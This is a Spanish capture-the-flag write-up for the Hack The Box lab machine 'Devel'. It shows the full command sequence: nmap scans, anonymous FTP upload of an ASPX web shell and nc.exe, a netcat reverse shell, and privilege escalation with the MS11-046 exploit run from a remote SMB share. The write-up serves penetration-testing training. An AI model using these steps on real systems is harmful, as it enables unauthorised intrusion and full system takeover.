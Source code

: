 ```yaml
---
cover: ../../../.gitbook/assets/Devel.png
coverY: 0
---
```


# Devel

## Reconocimiento

Lanzamos una traza icmp para ver si nos responde la maquina

```shell
> ping -c 1 10.10.10.5
PING 10.10.10.5 (10.10.10.5) 56(84) bytes of data.
64 bytes from 10.10.10.5: icmp_seq=1 ttl=127 time=35.4 ms

--- 10.10.10.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 35.388/35.388/35.388/0.000 ms
```

Vamos a escanear todo el rango de puertos abiertos de la maquina

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

De los puertos encontrados vamos a lanzar scripts básicos de reconocimiento y escanear versiones

<pre class="language-shell"><code class="lang-shell"><strong>> nmap -sCV -p21,80 10.10.10.5
</strong>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       &#x3C;DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

### Puerto 21 (ftp)

Con lo escaneado anteriormente vemos que el puerto 21 ftp tiene habilitado el anonymous vamos a echarle un vistazo

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

### Puerto 80 (http)

<figure><img src="../../../.gitbook/assets/IIS.PNG" alt=""><figcaption></figcaption></figure>

Si vemos el código fuente la imagen tiene el mismo nombre que en lo que havia en el ftp

<figure><img src="../../../.gitbook/assets/image.PNG" alt=""><figcaption></figcaption></figure>

Si tenemos permisos para subir en el servidor ftp podríamos subir una web-shell en aspx para ejecutar comandos porque como es un IIS lo interpreta como un archivo

```shell
> cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
> ls
 aspx_cmd.aspx
```

Vamos a subir el cmd.aspx en el servidor ftp con el comando `PUT`

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.       
ftp> put aspx_cmd.aspx
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
1438 bytes sent in 0.00 secs (29.1784 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  08:46AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Y podemos ejecutar comandos

<figure><img src="../../../.gitbook/assets/aspx.PNG" alt=""><figcaption></figcaption></figure>

Como podemos ejecutar comandos lo que nos interesa es poder ganar acceso a la maquina no o recibir una reverse shell con netcat pues vamos a subir el nc.exe al servidor ftp

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary # Muy importante
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (295.1150 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  09:01AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
04-08-21  09:05AM                28160 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Claro pero nosotros no sabemos donde ahora esta el nc.exe pues buscando en google la ruta por defecto del IIS vemos que es la siguiente

<figure><img src="../../../.gitbook/assets/path.png" alt=""><figcaption></figcaption></figure>

`C:\inetpub\wwwroot\nc.exe`

Pues nos enviamos una reverse shell por nc de la siguiente manera

* Primero nos ponemos en escucha en otra ventana diferente con nc

```shell
> rlwrap nc -lvnp <puerto> # Rlwrap sirve para que podamos tener una shell mas interactiva
listening on [any] 4444 ...
```

* Y estaríamos dentro

<pre class="language-shell"><code class="lang-shell"><strong>> rlwrap nc -lvnp 4444
</strong>listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
</code></pre>

## Escalada de Privilegios

Ahora nos queda elevar de privilegios porque tenemos por ahora un usuario con bajos privilegios

Vemos que es un windows 7 y la versión es un tanto antigua vamos a buscar un **exploit** para poder escalar de privilegios al usuario **administrador**.

```shell
C:\Windows\Temp> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Buscamos en google `6.1.7600 N/A Build 7600` exploit y encontramos el repositorio de github de abatchy17

* Nos descargamos el `ms11-046.exe`

```shell
> wget https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/MS11-046.exe
> ls
 ms11-046.exe
```

Para subir-lo a la maquina victima se puede hacer de 2 formas desde ftp o compartiendo una carpeta compartida por smb

1. FTP

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put ms11-046.exe
local: ms11-046.exe remote: ms11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
139699 bytes sent in 0.16 secs (859.7100 kB/s)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv> C:\inetpub\wwwroot\ms11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

2. Con smbserver

```shell
> smbserver.py smbFolder $(pwd)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv>\\10.10.16.2\smbFolder\exploit.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```
